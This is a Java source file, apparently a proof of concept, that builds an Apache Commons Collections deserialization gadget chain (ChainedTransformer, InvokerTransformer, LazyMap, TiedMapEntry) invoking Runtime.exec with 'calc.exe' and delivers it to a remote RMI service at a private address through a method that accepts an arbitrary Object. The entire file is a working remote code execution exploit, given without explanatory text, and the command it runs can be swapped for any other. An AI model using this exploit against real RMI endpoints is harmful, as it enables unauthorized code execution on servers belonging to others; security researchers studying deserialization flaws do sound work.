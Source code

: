 ```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Field;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;


public class Client {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        Registry registry = LocateRegistry.getRegistry("192.168.100.1", 1099);
        Hello hello = (Hello) registry.lookup("hello");
        hello.world(expMap);
    }
}

interface Hello extends Remote{
    public void world(Object obj) throws RemoteException;
}
```
